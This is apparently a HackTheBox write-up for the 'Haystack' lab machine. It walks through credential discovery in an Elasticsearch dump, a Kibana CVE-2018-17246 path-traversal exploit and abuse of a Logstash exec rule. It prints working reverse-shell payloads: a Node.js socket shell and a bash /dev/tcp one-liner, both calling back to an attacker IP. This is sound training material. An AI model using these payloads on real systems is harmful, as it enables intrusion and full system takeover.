 # Haystack - HackTheBox
## Linux - Easy

### Nmap
Nmap shows that ports 22/SSH, 80/HTTP, and 9200/HTTP are open.

### Port 80
Going on port 80 first, we see an image `needle.jpg` of a needle. Going through the usual steganography methods, we find that there is a base64 string appended to the image:
```bash
$ tail -1 needle.jpg | base64 -d
la aguja en el pajar es "clave"
```
which translate to `the needle in the haystack is "key"/"clave"`. Not so helpful...

### Port 9200
going on port 9200, we get an ElasticSearch endpoint. Looking around, we do not get many interesting things. I installed the tool `elasticdump` that dumps the ElasticSearch database:
```bash
$ elasticdump --input=http://10.10.10.115:9200 --output=dump
```
The database is quite large and mostly in spanish, so it's hard to find interesting stuff. But then, I remembered that the needle is "clave":
```bash
$ grep clave dump
{"_index":"quotes","_type":"quote","_id":"111","_score":1,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
{"_index":"quotes","_type":"quote","_id":"45","_score":1,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}
```
We see two base64 strings, which decode to:
```
pass: spanish.is.key
user: security
```
Trying these creds on ssh, it works!

### First PrivEsc
We are in the box as user `security`. Looking around, we see that `kibana` is installed and listening on port 5601. Googling for exploits, we find [this on](https://github.com/mpgn/CVE-2018-17246), which works perfectly:
```bash
$ cat /tmp/rev.js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(9067, "10.10.15.250", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
$ curl '127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/rev.js'
```
gives a shell as user `kibana`.

### Second PrivEsc
Looking around, we see three unusual config files for `logstash`:
```bash
$ cat /etc/logstash/conf.d/filter.conf
filter {
    if [type] == "execute" {
        grok {
            match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
        }
    }
}

$ cat /etc/logstash/conf.d/input.conf 
input {
    file {
        path => "/opt/kibana/logstash_*"
        start_position => "beginning"
        sincedb_path => "/dev/null"
        stat_interval => "10 second"
        type => "execute"
        mode => "read"
    }
}

$ cat /etc/logstash/conf.d/output.conf 
output {
    if [type] == "execute" {
        stdout { codec => json }
        exec {
            command => "%{comando} &"
        }
    }
}
```
Looking at the `logstash` documentation, we see that these config files do the following: `logstash` looks every 10 seconds in the folder `/opt/kbana/` for files `logstash_*`, matches their content for the regex `Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}` and executes the command `comando`.

We thus have code execution as root:
```bash
$ cat /opt/kibana/logstash_fin 
Ejecutar comando : bash -c "bash -i >& /dev/tcp/10.10.15.250/9002 0>&1"
```
and listening on port 9002, we get a root shell!
